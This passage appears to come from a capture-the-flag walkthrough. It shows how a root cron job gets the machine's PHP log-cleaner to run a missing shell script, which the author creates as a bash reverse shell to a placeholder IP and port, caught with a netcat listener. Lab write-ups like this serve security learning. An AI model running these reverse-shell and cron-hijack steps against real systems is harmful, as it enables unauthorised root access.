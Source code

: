 In a final terminal, we run the following command to listen for the incoming reverse shell connection:
    ```
    nc -nvlp {Port}
    ```
I need to wait for the connection from the server, and once established, I gain interactive access to the target system's shell.

Finally, we get access to the machine!!!

## Privilege Scalation

After using doing a research to find any way to find a way to scalate privileges, we find a strange cron task:
```bash
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * *	root	/var/www/cronjobs/clearlogs

```
>**Important**: Cron jobs are automated processes that run periodically on Unix systems. They can be a vulnerability if an attacker can modify the content of a cron job, allowin them to execute malicious commands with elevated privileges.

We find a task that is executed each minute `/var/www/cronjobs/clearlogs`, let's take a look to that file.

It seems that clearlogs doesn't allow us to write on the file, however it includes an interesting line that allow us to execute a file as root:
```bash
#!/usr/bin/php
<?php
$file = '/var/www/admin/logs/access.log';
file_put_contents($file, '');
exec('/var/www/cmd/logcleared.sh');
?>
```
It seems that the `logcleared.sh` is executed as root, however, there is no file in the machine with that name, so we can created and we add that on the file:
```bash
#!/bin/sh
bash -i >& /dev/tcp/{IP}/{Port} 0>&1
```
Finally, we open a new terminal, where we will run the command to listen for the incoming reverse shell connection:
``` bash
nc -nvlp {Port}
```


